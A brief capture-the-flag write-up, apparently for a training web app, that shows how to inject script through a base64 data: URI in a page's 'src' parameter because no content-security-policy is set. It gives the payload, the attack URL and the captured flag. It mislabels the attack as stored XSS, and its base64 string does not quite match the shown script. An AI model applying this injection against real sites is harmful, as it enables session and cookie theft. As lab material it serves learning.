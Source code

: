# Cross-site Scripting (XSS)
Cross-site scripting consists of injecting malicious code into a vulnerable site. When implemented actively, it aims to access any: cookies, session tokens, or other sensitive information retained by the browser and used with that site.  

# Stored XXS attack

### Step 1
Navigate to http://0.0.0.0/index.php
> * Inspect page and find the _src="http://0.0.0.0/index.php?page=media&src=nsa"_ link
> * Kinda redirects to media source: image

### Step 2
> * Inspect page, look up the head section.
> * You will see that no content-security-policy is specified, this allows for in-line js exploitation is uploaded
> * Requires base64 encoded string as it is used to transfer data over a medium that only supports ASCII formats, such as email messages on Multipurpose Internet Mail Extension (MIME) and Extensible Markup Language (XML) data.  

### Step 3
> * Attack
> 1. <script>alert()</script> -> base64 encode => PHNjcmlwdD5hbGVydDwvc2NyaXB0Pg==
> 2. http://192.168.1.68/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydDwvc2NyaXB0Pg==
> 3. **THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D**

https://portswigger.net/web-security/cross-site-scripting/content-security-policy

http://cubalo.github.io/blog/2014/01/04/bypassing-xss-filters-using-data-uris/

https://www.base64decode.org/